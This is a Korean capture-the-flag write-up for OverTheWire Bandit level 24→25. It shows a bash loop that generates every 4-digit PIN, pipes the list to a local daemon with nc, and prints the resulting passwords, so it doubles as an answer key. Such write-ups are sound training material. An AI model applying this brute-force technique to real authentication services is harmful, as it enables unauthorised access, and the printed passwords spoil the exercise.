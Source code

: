 ```yaml
---
title: "Bandit Level 24 → Level 25"
date: 2024-02-14
categories: [Bandit]
tags: [Bandit]
---
```


## 문제
<https://overthewire.org/wargames/bandit/bandit25.html>

## 목표
다음 레벨의 패스워드를 찾는다.
> Demon은 30002번 포트에서 수신 대기 중이다. `bandit24`의 비밀번호와 4자리 핀코드를 제출하면 `bandit25`의 비밀번호를 얻을 수 있다.

## 풀이

스크립트 작성을 위해 새 디렉토리를 만든다.

```sh
bandit24@bandit:~$ mkdir /tmp/new_dir
bandit24@bandit:~$ cd /tmp/new_dir
```  

&nbsp;  

`bandit24`의 패스워드와 핀코드를 무차별 대입해 새 파일에 저장하는 스크립트를 작성한다.  

```sh
bandit24@bandit:/tmp/new_dir$ vi script.sh
```  

```sh
#!/bin/bash

for i in {0000..9999}
        do
                echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i" >> /tmp/new_dir/Password.txt
        done
```  

&nbsp;  

저장된 파일을 30002번 포트에 제출한다.  

```sh
bandit24@bandit:/tmp/new_dir$ cat Password.txt | nc localhost 30002
.
.
.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
```  

&nbsp;  

**Password : p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d**

## 배운 것
- 무차별 대입 공격